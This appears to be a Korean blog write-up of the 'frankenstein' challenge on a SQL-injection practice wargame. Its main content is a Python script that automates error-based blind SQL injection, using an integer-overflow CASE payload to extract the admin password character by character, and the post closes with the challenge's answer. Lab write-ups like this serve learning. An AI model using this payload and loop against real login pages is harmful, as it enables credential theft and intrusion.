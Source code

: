 
# [28] frankenstein

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FTO6uD%2FbtroQcD0xeH%2FVEz0pKlYKuQykNPh1pftgK%2Fimg.png">

## 풀이

**LoS 28번 Python 자동화 코드**이다.
```python
import requests

url = "https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php"
cookie = {"PHPSESSID":"2evml88c628kabc2j1vfk63ks9"}

print("🖤 Start SQLi...")

ans = ""
end = False

for i in range(1, 100):
    if(end==True):
        print(f">> There's No Letter {i}")
        break
    end = True
    print(f"🖤 Checking letter {i}...")
    for asc in range(48, 127):
        search = ans+chr(asc)
        payload = f"?pw=' || CASE WHEN id='admin' and pw like '{search}%25' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END %23"
        res = requests.get(url+payload, cookies=cookie)
        if("login_chk" in res.text):
            continue
        elif("error" in res.text):
            print(f">> Letter {i} → {chr(asc)}")
            ans+=chr(asc)
            end = False
            break

print(f"🖤 Answer : {ans}")
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fo9RVC%2FbtroQHcGsn6%2FR3hxUf6mnpVomVdHZmykK1%2Fimg.png">

그런데 여기서 끝이 아니었다.

자동화 공격 결과 분명 답은 숫자와 알파벳 **대문자**의 조합으로 나왔건만...

아무리 넣어봐도 안 풀렸다.

도저히 이유를 모르겠어서 다른 블로그 글을 찾아봤더니 답은 `0dc4efbb` 였다.

왜 아스키로 검색했는데 대소문자가 반대로 나오는지...

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FFN907%2FbtroSuwFci1%2FkHtw4XM9KJHFkbEZAOHw6K%2Fimg.png">